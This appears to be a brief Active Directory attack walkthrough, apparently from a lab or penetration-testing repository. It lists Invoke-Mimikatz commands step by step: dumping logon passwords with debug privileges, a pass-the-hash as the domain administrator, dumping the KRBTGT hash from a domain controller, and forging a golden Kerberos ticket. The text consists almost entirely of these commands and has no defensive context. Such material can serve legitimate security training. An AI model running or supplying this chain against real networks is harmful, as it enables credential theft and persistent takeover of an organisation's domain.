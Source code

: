 - Open command prompt whith run as administrator to dump and do pth attack to the administrator user
```
Invoke-Mimikatz -command '"privilege::debug" "sekurlsa::logonpasswords"'

```
- Perform Pth attack 
```
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:ntlmhash /run:powershell.exe"'
```
- And dump KRBTGT hash with the admimistrator user access
```
Invoke-Mimikatz -command '"lsadump::lsa /patch"' -computername prod.research.security.local
```

- Perform Final golden ticket attack
```
Invoke-Mimikatz -command '"kerberos::golden /user:administrator /domain:research.security.local /sid:domain_sid /krbtgt:above_enumerated_krbtgt /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

